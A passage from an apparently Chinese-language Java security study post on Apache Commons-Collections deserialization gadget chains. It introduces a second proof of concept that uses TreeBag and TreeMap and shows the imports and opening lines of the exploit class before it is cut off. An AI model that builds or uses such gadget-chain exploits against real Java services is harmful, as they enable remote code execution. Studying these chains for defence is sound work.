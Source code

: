 ```java
        }
    }
}
```
<img src="./Java安全学习-Commons-Collections4567/9.png" alt="">

## POC-2
> 相较于`POC-1`，这里使用`TreeBag`和`TreeMap`来替代`PriorityQueue`进行构造

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 11:26 上午
 */
public class CommonsCollectionsTreeBag {

    public static void CC4() throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
```